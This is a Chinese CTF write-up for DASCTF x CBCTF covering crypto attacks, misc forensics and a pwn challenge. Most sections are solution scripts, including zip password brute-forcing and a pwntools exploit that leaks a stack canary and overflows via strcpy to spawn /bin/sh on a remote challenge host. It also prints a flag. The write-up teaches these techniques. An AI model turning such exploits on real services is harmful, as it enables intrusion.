



# DASCTF x CBCTF

## CRYPTO

### EZRSA

解 p：

这里应用雅可比符号(Jacobi symbol)的推论，若 `jacobi(a,m) = -1`,则二次剩余方程 ` x^2 = a mod m` 无解.不难发现,当 `P==1` 时，二次剩余方程显然有解（如(2x)^e），依次判断每一个 cipher,若 `jacobi(cipher,n1)==-1`,方程无解,则 P 一定不等于 1,`P==0`;若 `jacobi(cipher,n1)` 不等于-1,则 `P==1`,从而得到 P 的所有二进制位,从而恢复 p。

解 q：

关联信息攻击
c1 = (q+noise1)^e1 mod n2
c2 = (q+noise2)^e2 mod n2
构造多项式
g1 = (x+noise1)^e1 - c1
g2 = (x+noise2)^e2 - c2
在 n2 域下,q 为 g1 = 0 mod n2 和 g2 = 0 mod n2 的根,即两个多项式都存在因式(x-q),求两个多项式的公因式,得到 q.

```python
from gmpy2 import *
from Crypto.Util.number import *
from libnum import *
import random
n1 = 65634094430927080732256164808833233563732628654160389042977689628512527168256899310662239009610512772020503283842588142453533499954947692968978190310627721338357432052800695091789711809256924541784954080619073213358228083200846540676931341013554634493581962527475555869292091755676130810562421465063412235309
n2 = 103670293685965841863872863719573676572683187403862749665555450164387906552249974071743238931253290278574192713467491802940810851806104430306195931179902098180199167945649526235613636163362672777298968943319216325949503045377100235181706964846408396946496139224344270391027205106691880999410424150216806861393
(e1, noise1, c1) = (1743, 44560588075773853612820227436439937514195680734214431948441190347878274184937952381785302837541202705212687700521129385632776241537669208088777729355349833215443048466316517110778502508209433792603420158786772339233397583637570006255153020675167597396958251208681121668808253767520416175569161674463861719776, 65643009354198075182587766550521107063140340983433852821580802983736094225036497335607400197479623208915379722646955329855681601551282788854644359967909570360251550766970054185510197999091645907461580987639650262519866292285164258262387411847857812391136042309550813795587776534035784065962779853621152905983)
(e2, noise2, c2) = (1325, 35282006599813744140721262875292395887558561517759721467291789696459426702600397172655624765281531167221787036009507833425145071265739486735993631460189629709591456017092661028839951392247601628468621576100035700437892164435424035004463142959219067199451575338270613300215815894328788753564798153516122567683, 50327632090778183759544755226710110702046850880299488259739672542025916422119065179822210884622225945376465802069464782311211031263046593145733701591371950349735709553105217501410716570601397725812709771348772095131473415552527749452347866778401205442409443726952960806789526845194216490544108773715759733714)
c = 124349762993424531697403299350944207725577290992189948388824124986066269514204313888980321088629462472088631052329128042837153718129149149661961926557818023704330462282009415874674794190206220980118413541269327644472633791532767765585035518183177197863522573410860341245613331398610013697803459403446614221369
e = 0x10001
f = open('enc.txt','r').read().strip().split('n')
cipher = [i for i in f]
cipher = cipher[:-1]
cipher = [int(i) for i in cipher]
flag = ""
for i in cipher:
    if jacobi(i,n1)==-1:
        flag += '0'
    else:
        flag += '1'

p = int(flag[::-1],2)
print('p = '+str(p))
def attack(c1, c2, noise1, noise2,  e1, e2 , n):
    
    PR.<x>=PolynomialRing(Zmod(n))
    g1 = (x + noise1)^e1 - c1
    g2 = (x + noise2)^e2 - c2

    def gcd(g1, g2):
        while g2:
            g1, g2 = g2, g1 % g2
        return g1.monic()
    print(gcd(g1, g2))
    return -gcd(g1, g2)[0]

q = int(attack(c1, c2, noise1, noise2,  e1, e2 , n2))
print('q = ' +str(q))
n = p*q
phi = (p-1)*(q-1)
d = inverse_mod(e,phi)
m = power_mod(c,d,n)
print(long_to_bytes(m))
```

### CB curve

预计难度:中等   解出人数:2

题目中给出了 ph、pl 数组，很容易联想到西湖论剑的曲线格，所以只要围绕着曲线格去打就行。而为了预防映射一把梭，我把 P 点造成了一个不在曲线上的点，因此求原来的点必须通过消元思想去进行。在尝试造格子之前，首先我们需要确定的是，G 和-G 在 huff 曲线上的形式的不同和关联，这样才能够把变量简化掉去构造式子。那么观察 huff 曲线的加法，

$$
x'≡\frac{(x_1+x_2)(1+ay_1y_2)}{(1+bx_1x_2)(1-ay_1y_2)} mod \quad p
$$

$$
y'≡\frac{(y_1+y_2)(1+bx_1x_2)}{(1-bx_1x_2)(1+ay_1y_2)}mod \quad p
$$

如果存在一个 O 元素，对任何元素 P 满足 O+P=P，xp≠0，那么

$$
x_P≡\frac{(x_P+x_O)(1+ay_Py_O)}{(1+bx_Px_O)(1-ay_Py_O)}mod \quad p
$$

$$
y_P≡\frac{(y_P+y_O)(1+bx_Px_O)}{(1-bx_Px_O)(1+ay_Py_O)}mod \quad p
$$

可以确定 O=(0,0)，代入得到

$$
x_O≡\frac{(x_++x_-)(1+ay_+y_-)}{(1+bx_+x_-)(1-ay_+y_-)}mod \quad p
$$

$$
y_O≡\frac{(y_++y_-)(1+bx_+x_-)}{(1-bx_+x_-)(1+ay_+y_-)}mod \quad p
$$

那么显然有

$$
-P=(-x_P,-y_P)
$$

根据这个性质我们可以构造式子

$$
x_{P+Q}·x_{P-Q}≡\frac{(x_1+x_2)(1+ay_1y_2)}{(1+bx_1x_2)(1-ay_1y_2)}·\frac{(x_1-x_2)(1-ay_1y_2)}{(1-bx_1x_2)(1+ay_1y_2)} mod \quad p
$$

这样式子的关于 y 的部分就消除啦。消除过后，我们可以得到

$$
(x_h-e)·(x_l-e)≡\frac{(x_1+x_2)(x_1-x_2)}{(1+bx_1x_2)(1-bx_1x_2)} mod \quad p
$$

这个方程只有两个未知数：x1 和 e。而我们一共有 10 个同样的方程，所以可以直接用 gb 基或者其他方法给它解掉，不用再造格进行运算。

```python
from Crypto.Util.number import *
p = 
a = 
b = 
R = 
Pl = 
Ph = 
xq = R[0]

class CB_curve:
    def __init__(self):
        self.p = 
        self.a = 
        self.b = 

    def add(self, P, Q):
        if P == -1:
            return Q
        (x1, y1) = P
        (x2, y2) = Q
        x3 =  (x1+x2)*(1+self.a*y1*y2)*inverse((1+self.b*x1*x2)*(1-self.a*y1*y2),self.p)% self.p
        y3 =  (y1+y2)*(1+self.b*x1*x2)*inverse((1-self.b*x1*x2)*(1+self.a*y1*y2),self.p)% self.p
        return (x3, y3)

    def mul(self, x, P):
        Q = -1
        x = x % self.p
        while x > 0:
            if x & 1:
                Q = self.add(Q, P)
            P = self.add(P, P)
            x = x >> 1
        return Q
    
    def negG(self,G):
        return self.mul(order-1,G)

ecc = CB_curve()
PR.<e,k,P0> =PolynomialRing(Zmod(p))
f = []
for i in range(10):
    x1 = P0
    x2 = ecc.mul(10-i,R)[0]
    f.append(x1^2-x2^2-(1-b^2*x1^2*x2^2)*(Ph[i]-e)*(Pl[i]-e))
ans=Ideal(f).groebner_basis()
print(ans)

R.<P0> = PolynomialRing(GF(p))
f = P0^2+219493165434454878473973957507132663767650700404392831423708684433961924200902
print(f.roots())
```

剩下来的就是收尾时刻，huff 曲线的映射拿到，打就完了。

曲线形式

$$
x(a^2y-1)≡y(bx^2-1) mod \quad p
$$

曲线映射

$$
(x,y)→(\frac{bx-ay}{y-x},\frac{b-a}{y-x})
$$

目标曲线

$$
y^2≡x^3+(a+b)x^2+abx \quad mod \quad p
$$

Pohlig-Hellman 收工

```python
p = 
a = 
b = 
G = 
E = EllipticCurve(GF(p),[0,a+b,0,a*b,0])

def mapping(G):
    x,y = G
    x,y = ((b*x-a*y)*inverse_mod(y-x,p)%p,(b-a)*inverse_mod(y-x,p)%p)
    G = E(x,y)
    return G
    
x = 
R.<y> = PolynomialRing(GF(p))
f = x*(a*y^2-1)-y*(b*x^2-1)
y = int(f.roots()[1][0])

S = (x,y)
print(S)
A = (E.order())
G = mapping(G)
S = mapping(S)
n = G.order()
factors, exponents = zip(*factor(n))
primes = [factors[i] ^ exponents[i] for i in range(len(factors))][:-1]
print(primes)
dl = []
for fac in primes:
    t = int(n/fac)
    dlog = discrete_log(t*S,t*G,operation = "+")
    dl += [dlog]
    print(dlog)
d = crt(dl,primes)
print(d)

import libnum

print(libnum.n2s(int(d)))
```

### CB backpack

预计难度:困难   解出人数:19

开始没想到 8-balanced 和纯 balanced 的情况约束差这么多，给入烂了。本题原型是构造一个 RSSP 问题，但是为了方便 filter 就给了更加强大的约束，即背包的八块都是 balanced 的情况，预期是实现一个 HJ 算法（[New generic algorithms for hard knapsacks](https://eprint.iacr.org/2010/189.pdf)）或者 BCJ 算法（[Improved Generic Algorithms for Hard Knapsacks)](https://eprint.iacr.org/2011/474.pdf)），去进行求解。

根据反馈，背包格加点变形（譬如爆破、添加新式子）就能够很轻松地打出 flag 了。Sad😔。

```python
from tqdm import tqdm
from copy import deepcopy
from random import randint
import time

def add(a,s):
    re = 0
    for i,j in zip(a,s):
        re += i*j
    return re

def Schroeppel_Shamir_balance(a,re,N4,M):
    SL1 = []
    SL1_ = {}
    SR1 = [0 for i in range(2^N4)]
    SR1_ = {}
    SL2 = []
    SL2_ = {}
    SR2 = [0 for i in range(2^N4)]
    SR2_ = {}

    for i in range(2^N4):
        s = [int(j) for j in bin(i)[2:].rjust(N4,'0')]
        s1 = s + [0]*N4*3
        s2 = [0]*N4 + s + [0]*N4*2
        s3 = [0]*N4*2 + s + [0]*N4*3
        s4 = [0]*N4*3 + s
        if sum(s) != N4//2:
            continue
        SL1.append(add(s1,a)%M)
        SR1[i] = add(s2,a)%M
        SL2.append(add(s3,a)%M)
        SR2[i] = add(s4,a)%M
        #print(add(s4,a),a,s4)
        try:
            SL1_[add(s1,a)%M].append(s)
        except:
            SL1_[add(s1,a)%M] = [s]
        try:
            SL2_[add(s3,a)%M].append(s)
        except:
            SL2_[add(s3,a)%M] = [s]
        try:
            SR1_[add(s2,a)%M].append(s)
        except:
            SR1_[add(s2,a)%M] = [s]
        try:
            SR2_[add(s4,a)%M].append(s)
        except:
            SR2_[add(s4,a)%M] = [s]
    S1 = []
    S1_ = {}
    Sol = []
    for eM in range(M):
        for i in range(1,len(SL1)):
            eL1 = SL1[i]%M
            et = (eM-eL1)%M
            if et in SR1_.keys():
                for sr in SR1_[et]:
                    j = int(''.join([str(k) for k in sr]),2)
                    S1.append((eL1+SR1[j])%M)
                    for sl1 in SL1_[SL1[i]]:
                        try:
                            S1_[(eL1+SR1[j])%M].append(sl1+sr)
                        except:
                            S1_[(eL1+SR1[j])%M] = [sl1+sr]
        for i in range(1,len(SL2)):
            eL2 = SL2[i]%M
            et = (re-eM-eL2)%M
            if et in SR2_.keys():
                for sr in SR2_[et]:
                    l = int(''.join([str(k) for k in sr]),2)
                    t_ = (re-eL2-SR2[l])%M
                    if t_ in S1_.keys():
                        for sl2 in SL2_[SL2[i]]:
                            for s1 in S1_[t_]:
                                Sol.append(s1+sl2+sr)
    return Sol

a = [65651991706497, 247831871690373, 120247087605020, 236854536567393, 38795708921144, 256334857906663, 120089773523233, 165349388120302, 123968326805899, 79638234559694, 259559389823590, 256776519514651, 107733244474073, 216508566448440, 39327578905012, 118682486932022, 263357223061004, 132872609024098, 44605761726563, 24908360451602, 237906955893793, 204469770496199, 7055254513808, 221802659519968, 169686619990988, 23128789035141, 208847144870760, 272339624469135, 269511404473473, 112830627321371, 73203551744776, 42843503010671, 118193938825623, 49625220390324, 230439888723036, 241486656550572, 107149406378865, 233503862264755, 269502011971514, 181805192674559, 152612003195556, 184127512098087, 165959151027513, 188723045133473, 241615906682300, 216101484550038, 81190147709444, 124498742419309]
re = 4051501228761632
n = len(a)
start_time = time.time()

M = 101
#M = 2

for i in tqdm(range(M//2+1)):
    s1 = Schroeppel_Shamir_balance(a[:n//2],i,n//8,M)
    s2 = Schroeppel_Shamir_balance(a[n//2:],re-i,n//8,M)
    print(len(s1),len(s2))

    for result1 in s1:
        for result2 in s2:
            if add(a,result1+result2) == re:
                print('answer:',result1+result2)
                
end_time = time.time()
print(end_time-start_time)
```

### CB cipher

预计难度:困难 解出人数:0

分为两个部分，iv 部分缝的 GEFFE 生成器，老样子相关性攻击再接讨论 + 爆破，也听到有师傅用 z3 去解的，就不再详细介绍。主体部分是一个魔改 cipherfour 的五轮中间相遇攻击，相信大家看到 k0k1 来回利用的时候也有一点感觉。

画一下加密的流程图，令 key_add 为 X，s_trans 为 S，bit_move 为 M，加密流程可以表示为

X(k0) S M X(k1) S X(k0) S M X(k1) S X(k0) S M X(k1)

用中间相遇进行分析，直接 k0k1 分开中间相遇是没办法进行碰撞的，两边的已知 bit 在分析到一半的时候就会完全消失，因此本题需要采取两层中间相遇的形式，外层爆破 k0 的左 4bit 和 k1 的左 4bit，内层对 k0 的右 12bit 和 k1 的右 12bit 进行中间相遇，这样对任何一组数据，我们可以在第三轮的末尾或者第三轮的开始碰撞得到 1 个 bit，原因是左 S 盒在第二轮和第四轮中并没有进行比特移位，保存了左 4bit 的已知状态。

而题目中，我们给出了 36 组数据，所以把这 36 个可碰撞 bit 合成为一个句子去进行中间相遇，能碰上的就很可能是对应的密钥，时间复杂度为 2^20。

ps：⚠iv 需要注意 padding，自己测的时候踩大坑

```python
from Crypto.Util.number import *
from tqdm import tqdm

class CB_cipher():
    def __init__(self):      
        self.sbox = [0x6, 0x4, 0xc, 0x5,
                     0x0, 0x7, 0x2, 0xe,
                     0x1, 0xf, 0x3, 0xd,
                     0x8, 0xa, 0x9, 0xb]
        self.inv_sbox = [0x4, 0x8, 0x6, 0xa, 
                         0x1, 0x3, 0x0, 0x5, 
                         0xc, 0xe, 0xd, 0xf, 
                         0x2, 0xb, 0x7, 0x9]
    
    def s_trans(self,pt):
        pt = ''.join([str(i) for i in pt])
        pt = [self.sbox[int(i,16)] for i in hex(int(pt,2))[2:].rjust(4,'0')]
        ct = ''.join([bin(i)[2:].rjust(4,'0') for i in pt])
        ct = [int(i) for i in ct]
        return ct
    
    def inv_s_trans(self,pt):
        pt = ''.join([str(i) for i in pt])
        pt = [self.inv_sbox[int(i,16)] for i in hex(int(pt,2))[2:].rjust(4,'0')]
        ct = ''.join([bin(i)[2:].rjust(4,'0') for i in pt])
        ct = [int(i) for i in ct]
        return ct
    
    def e1(self,pltxt,k0,k1_4):
        #print(self)
        key_add = lambda x,key : [x[i]^key[i] for i in range(len(x))]
        bit_move = lambda x : [x[(i//4)+(i%4)*4] for i in range(len(x))]
        
        ct = [int(i) for i in pltxt]
        ct = key_add(ct,k0)
        ct = self.s_trans(ct)
        ct = bit_move(ct)
        ct = key_add(ct[:4],k1_4)
        ct = self.sbox[int(''.join([str(i) for i in ct]),2)]
        ct = key_add([int(i) for i in bin(ct)[2:].rjust(4,'0')],k0[:4])
        ct = self.sbox[int(''.join([str(i) for i in ct]),2)]
        ct = ct//8
        return ct
        
    def d1(self,pltxt,k1,k0_4):
        #print(self)
        key_add = lambda x,key : [x[i]^key[i] for i in range(len(x))]
        bit_move = lambda x : [x[(i//4)+(i%4)*4] for i in range(len(x))]
        
        ct = [int(i) for i in pltxt]
        ct = key_add(ct,k1)
        ct = bit_move(ct)
        ct = self.inv_s_trans(ct)
        ct = key_add(ct[:4],k0_4)
        ct = self.inv_sbox[int(''.join([str(i) for i in ct]),2)]
        ct = key_add([int(i) for i in bin(ct)[2:].rjust(4,'0')],k1[:4])
        return ct[0]
    
    def bt_to_bin(self,msg):
        msg = msg if (len(msg)+1)%2 else msg+b'\x00'
        return bin(bytes_to_long(msg))[2:].rjust(8*len(msg),'0')
    
    def decrypt(self,pltxt,key):
        key_add = lambda x,key : [x[i]^key[i] for i in range(len(x))]
        bit_move = lambda x : [x[(i//4)+(i%4)*4] for i in range(len(x))]
        
        ct = [int(i) for i in pltxt]
        #print(ct,key)
        ct = key_add(ct,key[1])
        
        for i in range(5):
            if (i+1)%2:
                ct = bit_move(ct)
            ct = self.inv_s_trans(ct)
            ct = key_add(ct,key[i%2])
        
        return ''.join([str(i) for i in ct]) 
    
    def txt_decrypt(self,msg,key):
        output = []
        
        for i in range(len(msg)):
            now_re = self.decrypt(msg[i],key)
            output.append(now_re)
            
        return long_to_bytes(int(''.join(output),2))

m1 = b'Welcome to our CBCTF! I hope you can have a nice day here. Come with me.'
c1 = b'\x10\x07t9\x88\x95\x8b&\xb2\x8fp\xe7\xce\\k{\xbb\xe5\xa7\xb8\x92\xbe\xd1\n\x84.\xe1\xe0\xab\x08\x97\x92\x1a\xbd\xdf\x80R\xbe\xe2\x84\xe17\x14\x8a\x07\x03\x87)\xb2\xa6W:\xda\x04Y\xa5\xca\x16o1\x93\x9d\x90.\xcdS\xd6\xcbK\xf4\xd8G'
c2 = b"\xec\x16<[D;F6\xb6\xcc\x7f\x80jL1\xb1@\x84iF[\xfcW\xbbbp\xdc\x0fI,%\x15\x1a\xbe\x86hT\r\xf0\x8a\xa91\x9aF\xe3\x84n\xeb\xe9\xa3,T\xec\x8f\xdbb\xc1\xd7\xe7&'u\xe9A\xe9\x03\xe1\x89\x04\x8f\xa77\x8a\xd7\x97x\xccl\x1e\xc6\xea%\xb1/P\x98\x8e\x9bS\xca\xf5kR\x98H\xc6d\x15"
iv = b'\xaa\x9a\x0f\xde\xf5&\x1b).%}\x1d\xb7\n\x15\xf6\x0fL\xde2;q\x13\xc3\xe7Q\x03I\x0f\x19\xac\xa2\x9c\xec2\x07^\x9ba\x95\x13\xf1\xad\xdf\xa6\xb1--\xfd\xeb\xb9\x9ey\t\xbe\xc1s^\x10\xcef\xa0|\xbcc\xe9,\x00\xa24\xdfM\x80\x95PiR\xf7VnX\x97x\xe4\xd7\x1c\xec\xf8\x141u\x14-{E(\x9a'
c2 = long_to_bytes(bytes_to_long(c2)^bytes_to_long(iv))
print(c2,len(iv),len(c2))

output = []
output2 = []
for i in range(len(c1)//2-1,0,-1):
    output = [bytes_to_long(c1[2*i:2*i+2])^bytes_to_long(c1[2*i-2:2*i])] + output
for i in range(len(c2)//2-1,0,-1):
    output2 = [bytes_to_long(c2[2*i:2*i+2])^bytes_to_long(c2[2*i-2:2*i])] + output2

a = CIPHERFOUR()
output = [bytes_to_long(c1[:2])]+output
output2 = [bytes_to_long(c2[:2])]+output2
#print(a.s_trans([0]))

m1 = [bin(bytes_to_long(m1[2*i:2*i+2]))[2:].rjust(16,'0') for i in range(36)]
c1 = [bin(output[i])[2:].rjust(16,'0') for i in range(36)]
c2 = [bin(output2[i])[2:].rjust(16,'0') for i in range(len(output2))]

for i in tqdm(range(2**8)):
    k0_4 = [int(k) for k in bin(i//2**4)[2:].rjust(4,'0')]
    k1_4 = [int(k) for k in bin(i%2**4)[2:].rjust(4,'0')]
    W = []
    l = {}
    for j in range(2**12):
        k0_12 = [int(k) for k in bin(j)[2:].rjust(12,'0')]
        k0 = k0_4+k0_12
        wd = ''
        for time in range(36):
            wd += str(a.e1(m1[time],k0,k1_4))
        if int(wd,2) in l.keys():
            l[int(wd,2)].append(k0)
        else:
            l[int(wd,2)] = [k0]
    for j in range(2**12):
        k1_12 = [int(k) for k in bin(j)[2:].rjust(12,'0')]
        k1 = k1_4+k1_12
        wd = ''
        for time in range(36):
            wd += str(a.d1(c1[time],k1,k0_4))
        if int(wd,2) in l.keys():
            for k0 in l[int(wd,2)]:
                #print(k0,k1)
                if b'DASCTF' in a.txt_decrypt(c2,[k0,k1]):
                    print(a.txt_decrypt(c2,[k0,k1]))
```

## MISC

### Justpainting

1. 先是压缩包密码爆破，密码为 11452，然后开始代码审计，发现是一个线性的神经网络


1. 该网络读取 flag.png 后进行训练，经过几轮训练后使模型记住 flag.png，最后将模型保存为 flag.pth
2. 构造网络，并加载模型

```python
class JBN(nn.Module):
    def __init__(self):
        super(JBN, self).__init__()
        self.main = nn.Sequential(
            nn.Linear(100, 256),
            nn.ReLU(),
            nn.Linear(256, 512),
            nn.ReLU(),
            nn.Linear(512, 452 * 280),
            nn.Tanh()
        )

    def forward(self, x):
        img = self.main(x)
        img = img.view(-1, 452, 280)
        return img

jbn = torch.load('JBN.pth')
```

3.生成随机噪声的图片，要和模型需要的图片相吻合，也就是(1,100)的张量

```python
test_input = torch.randn(1, 100)
```

4.经过模型绘图后得到 flag.png 的 Tensor，需要注意的是模型的最后一层用的是双曲正切函数 Tanh()


所以这里得到的 flag.png 的 Tensor 对象的取值范围是[-1,1]，所以在绘图时处理一下

```python
plt.imshow((prediction + 1) / 2)
```

5.最后得到生成后的图像就是 flag


### NoPasswd

1. 打开 doc 发现需要密码，查看属性可以发现备注处有 16 进制字符串，且作者名为宏孩儿，尝试查看插入的宏代码


1. 因为 doc 格式可以不需要文档密码直接提取其中的 vba 宏代码，所以安装 oletools 工具，使用 olevba attachment 命令查看插入的宏代码，可以找到加密函数


1. 分析一下可以知道就是简单的异或，enc 应该就是备注中的 16 进制字符串，写个脚本解密一下可以得到 doc 的密码，解开 doc 可以发现 base64 字符串，解码一下可知是 zip 文件

```python
from Crypto.Util.number import *

enc = long_to_bytes(0x60290f0225011a72697f420d1f4e402778231b)
key = [19,71,122,99,65,111,43,67]

abc = ""

for i in range(len(enc)):
    abc += chr(enc[i] ^ key[i%8])

print(abc)
```


1. 打开 zip 文件后发现 flag 被加密，用 010 去除伪加密，同时可以发现 zip 数据解析错误，原因在于 flag.png 的文件名长度 8 被改成了 4，修复即可打开压缩包里的图片得到 flag


### SecretZip

题目给了一个 key 文件，以及一个加密的 zip，key 文件内其实是压缩包明文压缩后的前半部分，因此压缩包虽然不是 store 的压缩模式，也能进行已知部分明文攻击


下一个压缩包提示密码是 2 字节，但是是不可见字符，有很多种爆破的方法

```python
import zipfile
import libnum
from tqdm import trange

for i in trange(256):
    for j in range(256):
        fz = zipfile.ZipFile('secret key.zip', 'r')
        password = libnum.n2s(i) + libnum.n2s(j)
        try:
            fz.extractall(pwd=password)
            print(password)
            fz.close()
            break
        except:
            fz.close()
            continue
    else:
        continue
    break
```

得到密码是 b'\x9c\x07'

解压后在 txt 里得到三段秘钥 e48d3828 5b7223cc 71851fb0

同时在 zpaq 文件的文件尾得到


因此要还原 pkzip 的三段秘钥，此处本意是要根据 pkzip 的算法，写脚本来还原加密过程

但是发现 bkcrack 自带了秘钥还原的接口，因此就不给出相关算法代码了


把得到的密码，md5 以下，用 bandizip 或者其他工具解压 zpaq 即可


### justlisten

1.扫描一下汉信码 hint.png，获得 hint

```bash
flag length : 189
0urS3cret
```


2.用 oursecret 分离出一个类似于字典的 txt 文件


3.用 Audacity 查看嘘.wav 文件，看它的频谱图，得知它的频率为[800,900,1000,1100,1200,1300,1400,1500,1700,1800]以及它的每个频率变化的时间为 0.1s，同时可以得知它的采样频率为 44100


4.写一个脚本读取 wav 文件的数据长度

```python
import numpy as np
import wave
import scipy.fftpack as fftpack

SAMPLE_RATE = 44100                                     
SAMPLE_TIME = 0.1                                       
SAMPLE_NUM = int(SAMPLE_RATE * SAMPLE_TIME)            #4410 
LIST = [800, 900, 1000, 1100, 1200, 1300, 1400, 1500, 1600, 1700]

with wave.open('嘘.wav', 'rb') as f:          #读取为数组
    wav_data = np.frombuffer(f.readframes(-1), dtype=np.int16)
    N = len(wav_data)                                   #获取数据长度

    print (N)   #1666980

a = (N/(44100*0.1))/189
print(a) #2.0
```

可以得知数据长度 N=1666980，然后再 a = (N/(44100*0.1))/42 来计算每个字符占了多少时长为 0.2s

5.接下来处理一下数字信号，并根据分离出的字典来获取隐藏的数据

```python
import numpy as np
import wave
import scipy.fftpack as fftpack

SAMPLE_RATE = 44100                                     
SAMPLE_TIME = 0.1                                       
SAMPLE_NUM = int(SAMPLE_RATE * SAMPLE_TIME)            #4410 
LIST = [800, 900, 1000, 1100, 1200, 1300, 1400, 1500, 1600, 1700]   


# 傅里叶变换
def fft(data):
    N = len(data)                                   #获取数据长度
    fft_data = fftpack.fft(data)                    #得到频域信号                      
    abs_fft = np.abs(fft_data)                      #计算幅值    
    abs_fft = abs_fft/(N/2)                             
    half_fft = abs_fft[range(N//2)]                 #取频域信号的前半部分

    return half_fft
    

def dec_100ms(wave_data_100_ms):                     #解码100毫秒的音频数据
    fft_ret = fft(wave_data_100_ms)
    for index, freq in enumerate(LIST):
        if np.max(fft_ret[int(freq*SAMPLE_TIME) - 2 : int(freq*SAMPLE_TIME) + 2]) > 0.8:
            print(freq, 'Hz有值')
            return index


def dec_sentence(wav_data):                          #解码整个句子
    _100ms_count = len(wav_data) // SAMPLE_NUM          
    print('待解码音频包含', _100ms_count // 2, '个字')    

    ret = ''
    for i in range(0, _100ms_count, 2):                
        index = 0
        for k in range(2):
            index = index*10 + dec_100ms(wav_data[i*SAMPLE_NUM + k*SAMPLE_NUM : i*SAMPLE_NUM + (k+1)*SAMPLE_NUM])
        
        print('序号：', index)
        ret += string[index]

    return ret

if __name__ == '__main__':

    with open('haha.txt', 'r', encoding='utf8') as f:
        string =  f.read()

    with wave.open('嘘.wav', 'rb') as f:          #读取为数组
        wav_data = np.frombuffer(f.readframes(-1), dtype=np.int16)

    print(dec_sentence(wav_data))
```

运行脚本后获得 flag


DASCTF{Wh1stling_t0_Convey_informat1on!!!}

## PWN

出题思路分享：[https://nameless.top/index.php/2023/10/22/das10%e6%9c%88%e6%9c%88%e8%b5%9bpwn%e5%87%ba%e9%a2%98%e5%bf%83%e8%b7%afcve-2023-40930%e7%9a%84%e4%bb%8b%e7%bb%8d/](https://nameless.top/index.php/2023/10/22/das10%E6%9C%88%E6%9C%88%E8%B5%9Bpwn%E5%87%BA%E9%A2%98%E5%BF%83%E8%B7%AFcve-2023-40930%E7%9A%84%E4%BB%8B%E7%BB%8D/)

### GuestBook

用 IDA64 反编译可以发现 name 可以溢出 8 字节到 canary 上，因此可以利用后续输出 name 来泄露 canary



后面可以发现可以输入最多 4 次，并将我们的输入通过 strcpy 函数，从堆复制到栈上，并且输入的长度不限，因此存在栈溢出


由于数据是利用 strcpy 转移到栈上的，因此输入的数据中如果含有\x00 字符会被截断，因此就需要多次输入，从栈后面往前覆盖。

先覆盖返回地址为 system("/bin/sh")，同时 payload 要利用泄露的 canary 不破坏栈上的 canary

再利用第二次输入，将 canary 的\x00 字节通过 strcpy 复制时自动末尾补\x00 的特性恢复 canary

然后就可以触发 ret2text 来 getshell 了

```python
from pwn import *

context.log_level = 'debug'
context.arch='amd64'

local=0

p=remote('node4.buuoj.cn',26492)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def leak_canary():
    if(context.arch=='i386'):
        return u32(p.recv(7).rjust(8,b'\x00'))
    else:
        return u64(p.recv(7).rjust(8,b'\x00'))

sa("Please input your name: ","A"*24+":")
ru(":")
canary = leak_canary()

success("canary: "+hex(canary))

sa("How many messages would you like to leave(MAX 4): ",str(2))

payload = (0xA0-8)*"A" + "C" + p64(canary)[1:] + 8*"B" + "\xC3\x12\x40"
sl(payload)

payload = (0xA0-8-32)*"A"
sl(payload)

p.interactive()
```

### EASYBOX

（1）命令注入解法：

注的手法很多，这里就不赘述

（2）栈溢出解法：

